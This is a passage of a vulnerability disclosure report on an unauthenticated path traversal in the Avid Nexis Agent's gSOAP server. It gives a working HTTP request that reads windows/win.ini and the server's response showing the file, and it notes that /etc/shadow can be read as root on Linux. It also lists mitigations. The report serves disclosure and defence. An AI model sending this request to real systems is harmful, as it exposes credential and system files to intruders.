 ```]
#pagebreak()
== Unauthenticated Path Traversal (Linux/Windows) <unauthenticated-path-traversal>

=== Summary <summary>

The Application is vulnerable to an Unauthenticated Path Traversal. This affects the Agent installed on Linux and Windows alike.
As the application runs per default with the highest privileges (root/NT\_AUTHORITY SYSTEM), attackers are able to obtain critical files like `/etc/shadow` etc.
This vulnerability in gSOAP 2.8 was already known before. #link("https://www.exploit-db.com/exploits/47653")[This link] shows that this vulnerability is already known since at least 2019. However, it seems that the gSOAP version of the Avid Nexis Agent was not updated to an up-to-date version.

=== CWE <cwe>
- #link(
  "https://cwe.mitre.org/data/definitions/22.html"
)[CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')]

=== Steps to reproduce <steps-to-reproduce>
The vulnerability can be triggered with the following GET request:

#sourcecode(highlighted: (1,))[
```http
GET /../../../../../../../../../../../../../../../../windows/win.ini%00/common/lib/jquery/jquery-1.11.3.min.js HTTP/1.1
Host: 192.168.40.129:5015
...
```]

As we can see the response shows the files contents:

#sourcecode(highlighted: range(8,15))[```http
HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: application/x-javascript
Content-Length: 92
Connection: close
Expires: Tue, 16 Jul 2024 11:56:11 GMT

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```]

The same attack is possible on a Linux system:

#figure([#image("path_traversal_lin.png")], caption: [
  Unauthenticated Path Traversal on Linux that allows access to system files as `root`
])

The Vulnerability is affecting the standard configuration of the product.
=== Mitigations <mitigations>

- Validating that the input is just a filename and not a path
- Validating that the input contains alphanumeric characters that match the naming convention of the logfiles created by the agent
- Another possibility is maintaining a list with logfiles and allow only those names

=== Impact <impact>
```